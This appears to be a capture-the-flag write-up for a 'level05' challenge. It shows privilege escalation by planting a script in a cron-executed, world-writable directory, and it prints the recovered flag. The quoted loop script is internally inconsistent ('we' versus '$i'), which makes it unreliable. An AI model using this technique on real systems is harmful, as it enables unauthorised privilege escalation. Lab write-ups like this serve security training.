 # level05

- We log as `level05`

- As we log we can se a notification: `You have new mail.`

- We go into `/var/mail` and we find a `level05` file which contains:
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- This is a cron job that runs the command `su -c "sh /usr/sbin/openarenaserver"` every 2 minues

- Let's take a look at `/usr/sbin/openarenaserver`

- It is a simple sh script:
```
#!/bin/sh

for we in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
done
```

- We can see that this script execute every script present inside `/opt/openarenaserver` directory with `bash -x` and removes it after.

- We can check `/opt/openarenaserver` permissions using  `ls -la /opt/openarenaserver`
	>`drwxrwxr-x+ 2 root root 40 Aug 17 23:50 .`

- It has extended permissions:
```
# file: .
# owner: root
# group: root
user::rwx
user:level05:rwx
user:flag05:rwx
group::r-x
mask::rwx
other::r-x
default:user::rwx
default:user:level05:rwx
default:user:flag05:rwx
default:group::r-x
default:mask::rwx
default:other::r-x
```

- We can see `level05` user (us) has all permissions on this directory so let's create a simple shell script named `pwn` inside `/opt/openarenaserver` :
	>`echo "getflag > /tmp/pwned.txt" > /opt/openarenaserver/pwn`

- After 2 minutes the `/opt/openarenaserver/pwn` file dissapeared and a `/tmp/pwned.txt` file appeared

- Inside we get the flag: `viuaaale9huek52boumoomioc`